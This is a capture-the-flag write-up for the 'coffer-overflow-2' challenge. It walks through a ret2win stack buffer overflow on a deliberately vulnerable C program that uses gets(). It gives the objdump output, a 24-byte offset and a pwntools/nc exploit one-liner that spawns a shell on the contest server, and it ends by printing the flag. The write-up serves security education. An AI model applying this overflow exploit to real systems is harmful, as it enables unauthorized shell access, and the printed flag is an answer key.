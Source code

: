 # coffer-overflow-2

> You'll have to jump to a function now!?

> `nc 2020.redpwnc.tf 31908`

Files provided:
* coffer-overflow-2.c  -  C source code
* coffer-overflow-2   - 64bit ELF file

C source code:
```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}

```
This time our goal is to execute `binFunction()`, so we have to modify `main` return address to make it equal to `binFunction()` entry address.

So, run
```sh
$  objdump -d coffer-overflow-2
```
```
00000000004006e6 <binFunction>:
  4006e6:       55                      push   %rbp
  4006e7:       48 89 e5                mov    %rsp,%rbp
  4006ea:       48 8d 3d 12 01 00 00    lea    0x112(%rip),%rdi        # 400803 <_IO_stdin_used+0x83>
  4006f1:       b8 00 00 00 00          mov    $0x0,%eax
  4006f6:       e8 75 fe ff ff          callq  400570 <system@plt>
  4006fb:       90                      nop
  4006fc:       5d                      pop    %rbp
  4006fd:       c3                      retq   
  4006fe:       66 90                   xchg   %ax,%ax
```

The address of `binFunction()` is `0x00000000004006e6`.

Our payload will be something like this:
`[24-RANDOM_CHARS][0x4006e6]`
We need to insert 24 chars because before overwriting `main` return address we have to exceed `name` (16 bytes) and `rbp` (8 bytes)

therefore we can act like this:
```sh
$  (python -c "from pwn import *; print 'A'*24+p64(0x4006e6)"; cat) | nc 2020.redpwnc.tf 31908
```

And here is the flag: `flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}`
